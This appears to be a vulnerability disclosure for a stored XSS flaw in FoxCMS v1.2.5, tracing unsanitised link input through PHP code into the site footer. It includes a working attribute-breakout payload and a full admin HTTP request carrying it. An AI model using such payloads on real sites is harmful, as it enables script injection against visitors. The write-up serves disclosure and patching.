


## XSS

### Vulnerability Description
The latest version of FoxCMS v1.2.5 contains an XSS vulnerability in the Website homepage link. This vulnerability arises due to insufficient input validation and sanitization, allowing an attacker to inject arbitrary JavaScript code. The injected code will execute when other users view the file.

FoxCMS is an open-source, free-to-use content management system (CMS) based on PHP+MySQL architecture. It includes commonly used content models such as single pages, articles, products, galleries, videos, feedback, downloads, etc., and comes with rich template tags, SEO optimization, and static URL features. No advanced programming skills are needed, and users only need to know HTML to quickly build diverse applications for efficient content management. The system also supports multi-language support, form design, visitor statistics, message notifications, cloud storage services, etc.

Project Source Code: [Gitee FoxCMS](https://gitee.com/qianfox/foxcms)  
Official Website: [FoxCMS](https://www.foxcms.cn/)


### White-box Audit

The vulnerability was found in the `app\admin\controller\Link.php` file, where the `param` is directly passed to the `update` function for storage and updates:
```php
  public function edit()
    {
        $columnId = $this->request->param("columnId");
        $authRule = AuthRule::find($columnId);
        $bcidStr = str_replace(",", "_", $authRule->tier);
        $breadcrumb = AuthRule::getBreadcrumb($bcidStr);
        array_push($breadcrumb, ['id'=>'', 'title'=>'Edit Slide', 'name'=>DIRECTORY_SEPARATOR. config('adminconfig.admin_path').'/Link/edit','url'=>'javascript:void(0)']);
        View::assign("breadcrumb", $breadcrumb);

        if ($this->request->isPost()) {
            $param = $this->request->param();
            LinkModel::update($param);
            $this->success("Operation successful");
        }
        $id = $this->request->get('id');
        $slide = LinkModel::find($id);
        return view('edit',['link'=>$slide]);
    }
```

Tracking the flow revealed that `data` is passed to the `save` function:

The `save` function calls `updateData()` to update the data:
```php
 public function save(array $data = [], string $sequence = null): bool
    {
        // Assign data to the object
        $this->setAttrs($data);

        if ($this->isEmpty() || false === $this->trigger('BeforeWrite')) {
            return false;
        }

        $result = $this->exists ? $this->updateData() : $this->insertData($sequence);

        if (false === $result) {
            return false;
        }

        // Write callback
        $this->trigger('AfterWrite');

        // Re-record original data
        $this->origin   = $this->data;
        $this->get      = [];
        $this->lazySave = false;

        return true;
    }
```
Finally, the SQL query is executed here without any filtering.


When visiting the website's homepage, the `footer.html` template is rendered, and the link is directly inserted into the `href` attribute, causing an XSS vulnerability.


### Vulnerability Exploit

Go to the website's backend "Friendly Links" section:


Insert the following payload in the link:
```r
" onfocus="alert('xss');" autofocus="
```


The full HTTP request is as follows:
```http
POST /index.php/admin4943/Link/edit HTTP/1.1
Host: localhost
Accept: application/json, text/javascript, */*; q=0.01
Referer: http://localhost/index.php/admin4943/Link/edit?type=1&columnId=54&id=4
Cache-Control: no-cache
Sec-Fetch-Dest: empty
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Pragma: no-cache
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate, br, zstd
Origin: http://localhost
X-Requested-With: XMLHttpRequest
sec-ch-ua: "Not(A:Brand";v="99", "Google Chrome";v="133", "Chromium";v="133"
Cookie: Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; EM_AUTHCOOKIE_lNE22nMPAa488ZNtzQ3WgvxbdQwb6OXM=admin%7C1770040866%7Cb261421f97bb00341664ae3a0f324f32; ujcms-visit-unique-visitor=499762764960989; ujcms-unique-visitor=-7658023558624320967; PHPSESSID=063db44dee3fd725ac70bcdf2d33ffbe; keeplogin=1%7C86400%7C1739866061%7C1ac00e88e1610806dc9a101784368bbd; status_desc=%3Cscript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E; version=1.2.5; access_::1=1739784248; access_127_0_0_1=1739791249
Content-Length: 120

id=4&sort=0&title=%E9%BB%94%E7%8B%90%E5%BB%BA%E7%AB%99&link=%22+onfocus%3D%22alert('xss')%3B%22+autofocus%3D%22&status=1
```


Then, visiting the website's homepage will automatically trigger the XSS vulnerability.


